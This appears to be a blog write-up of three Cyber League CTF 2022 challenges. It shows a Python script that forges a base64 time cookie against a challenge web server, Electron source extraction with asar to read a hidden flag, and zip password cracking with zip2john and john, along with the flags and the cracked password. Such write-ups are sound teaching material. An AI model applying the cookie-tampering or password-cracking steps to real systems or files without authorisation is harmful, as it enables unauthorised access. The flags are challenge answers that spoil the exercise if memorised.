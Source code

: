 ```yaml
---
layout: post
title: Cyber League CTF 2022 - Writeups 🚩
categories:
- CTF
- Web-exploitation
tags:
- CTF
- Web-exploitation
- Forensics
- Cyber-League
date: 2022-05-02 10:16 +0800
---
```


> Didn't really have much time to tackle a lot of the challenges with this CTF and only managed to pwn 3 of them. A big shoutout to my team mates Mocha and Dante for a lot of initial enumerations! I just mainly followed their leads 😅

## Simulated bomb drill

This is the first challenge for the web category in cyber league's CTF. A web endpoint is given for us to start enumerating. When you first hit the main page you are issued a base64 encoded cookie that contains the time in the following format. And at the same time an imaginary bomb timer countdown starts.

![cookie](https://bn1304files.storage.live.com/y4mSu5_wHVLBsroBYQUT9z97CIOX7BLmmwLCzSZhe_sArd5JxbUMIiMDl2K8Q3IXyFsXcjcSbzcholSUdVS-27Ley7PHhZ4KOi6DakV7SyUH-VEbfN6-vyKfSb_EzWxYAKbV8wdjinV1r2p6gDtPw7ewWrHjwmZR2V_DXI2cT-YN0OwDXizBEpOAHs1IoZyYsN2?width=2872&height=936&cropmode=none)

```txt
2022-05-01 12:41:35.329922
```

By the time we visit the `/defuse` endpoint, it would be too late and the bomb would have been blown. The bomb needs to be defused with 0 microseconds passed. So it is physically impossible to do this by hand. The algorithm to get the flag endpoint is as below.

1. Decode the base64 time from cookie
2. Measure the time elasped from the first request
3. Minus off the time elasped from the cookie time
4. Encode the new time into the cookie and send the request

We can code the above steps as below in python.

```python
import requests
import base64

s = requests.Session()

res = s.get('http://13.213.72.54:5003/')

# Get time elapsed in microseconds
time_elapsed = res.elapsed
time_elapsed = time_elapsed.total_seconds()
print(res.elapsed)
# 0:00:00.019976


time_to_decode = s.cookies.get_dict()['princesspeach']
decoded_datetime = base64.b64decode(time_to_decode).decode('utf-8')
# '2022-05-01 12:41:35.329922'
decoded_time = decoded_datetime.split('.')
# ['2022-05-01 12:41:35', '308641']
decoded_microseconds = decoded_datetime.split('.')[1]
# '329922'
decoded_microseconds_in_seconds = int(decoded_microseconds)/1000000
# 0.329922

new_time = decoded_microseconds_in_seconds - time_elapsed
new_time_in_microseconds = int(new_time * 1000000)
# 308641

decoded_time[1] = str(new_time_in_microseconds)

to_encode = ''.join(decoded_time)
# '2022-05-01 12:41:35308641'
encoded_time = base64.b64encode(bytes(to_encode, 'utf-8'))
# b'MjAyMi0wNS0wMSAxMjo0MTozNTMwODY0MQ=='

s.cookies['princesspeach'] = encoded_time
res = s.get('http://13.213.72.54:5003/defuse')
print(res.content)

""" >>> print(res.content)
b'<!DOCTYPE html>\n<html>\n<head>\n <title></title>\n <meta charset="utf-8" />\n</head><body>\n<div class="bd-example" align="middle">\n\n<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />\n\n</div>\n</body>\n</html>' """
```

We managed the get the flag endpoint like below.

```html
<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />
```

Visit the endpoint and you will be able to get the flag.

![flag](https://bn1304files.storage.live.com/y4mZLD6Ua4apnvDZjqDKWnzRFYFCsqkIm-c1GpA0_AMbdm8vp3qwR27yEkIssKJ7iVkcQPPeGryziw-4e9dC8ijsw2-9RCFGbeAh2HgFtWampNx94gZwH8shXi-siMMX_zED4XYBtEAK_3YmXvxVFxWW57iEateBhtfOiB2jNQvlDfcHdMH56ycnRwfyLyml9sL?width=533&height=496&cropmode=none)

## Write farewell letters

This challenge is the misc category of the CTF. 3 types of installation files are given with flag hidden. `.dmg` `.exe` and `.appimage`. You simply have to run them to get the binary file to run the application.

The application is doing nothing much but hiding and showing the message as below.

![yoda](https://bn1304files.storage.live.com/y4mZ-4GT0gAj1OIaP2vgKopCFYLmbTMW8CMGiceqQjOIwTQL0jeezJSFWnsU8vNcWb2IA1NLW1WUZeqImILtFu6mtkrruZJ4DtSDBnp1koFd2k53r1e21PRsADdcbgQcWy8qldFQYQxq27_IYZb1rMjxFepvAyrMrl09F1yJoxynd_FY1QcFtynnFrzfwDQdO1k?width=1134&height=1344&cropmode=none)

I had my suspicion that this could be an electron app. To decompile it we can use npm's asar to extract the source code. Below is the capture of how i extracted out the electron source code.

```bash
➜  cyleague cd peekaboo.app 
➜  peekaboo.app cd Contents 
➜  Contents cd Resources 
➜  Resources ls
am.lproj      de.lproj      fi.lproj      id.lproj      mr.lproj      ro.lproj      te.lproj
app.asar      el.lproj      fil.lproj     it.lproj      ms.lproj      ru.lproj      th.lproj
ar.lproj      en.lproj      fr.lproj      ja.lproj      nb.lproj      sk.lproj      tr.lproj
bg.lproj      en_GB.lproj   gu.lproj      kn.lproj      nl.lproj      sl.lproj      uk.lproj
bn.lproj      es.lproj      he.lproj      ko.lproj      peekaboo.icns sr.lproj      vi.lproj
ca.lproj      es_419.lproj  hi.lproj      lt.lproj      pl.lproj      sv.lproj      zh_CN.lproj
cs.lproj      et.lproj      hr.lproj      lv.lproj      pt_BR.lproj   sw.lproj      zh_TW.lproj
da.lproj      fa.lproj      hu.lproj      ml.lproj      pt_PT.lproj   ta.lproj
➜  Resources mkdir decompile-electron
➜  Resources asar extract app.asar decompile-electron 
➜  Resources cd decompile-electron 
➜  decompile-electron code .
```

After decompiling, we open the source code in electron to analyse. From root folder navigate to js folder to index.js as below.

```In js > index.js```

```javascript
var visibilitySetting = 'hidden'

function load() {
    document.getElementById('showButton').innerHTML = 'show'
}

function showVersions() {
    if (visibilitySetting === 'visible') {
        visibilitySetting = 'hidden'
        document.getElementById('versions').style.visibility = 'hidden'
        document.getElementById('showButton').innerHTML = 'show'
    }
    else {
        visibilitySetting = 'visible'
        document.getElementById('versions').style.visibility =' visible'
        document.getElementById('showButton').innerHTML = 'hide'
    }
}

function shinyKnob() {
    console.log('CYBERLEAGUE{7h3_cu73n355_15_5720n9_w17h_7h15_0n3}')
}
```

## Understand space politics

This is a forensics challenge where challengers are given a `.7z` file with flag text underneath. The challenge is straightfoward to crack the zip file password to get the flag. Below is the capture of using zip2john to crack the zip file.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ zip2john hello_there.zip > ziphashes
ver 2.0 hello_there.zip/hello_there.txt PKZIP Encr: cmplen=41, decmplen=29, crc=87D14E54 ts=A8AF cs=87d1 type=0
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat ziphashes 
hello_there.zip/hello_there.txt:$pkzip$1*1*2*0*29*1d*87d14e54*0*2d*0*29*87d1*8facba0e3e10e650ad9dc1fc89e000dfcff60fe4858a519eb33e8f1f9380a9633f39729fb0e101c9eb*$/pkzip$:hello_there.txt:hello_there.zip::hello_there.zip
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ john ziphashes 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
2hot4u           (hello_there.zip/hello_there.txt)     
1g 0:00:00:02 DONE 3/3 (2022-05-01 09:13) 0.3521g/s 2067Kp/s 2067Kc/s 2067KC/s cjjlip..2hul83
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The password is `2hot4u` to extract out the flag.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ unzip hello_there.zip 
Archive:  hello_there.zip
[hello_there.zip] hello_there.txt password: 
 extracting: hello_there.txt         
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat hello_there.txt 
CYBERLEAGUE{Y0U_Fo|_|nD_3e!}
```
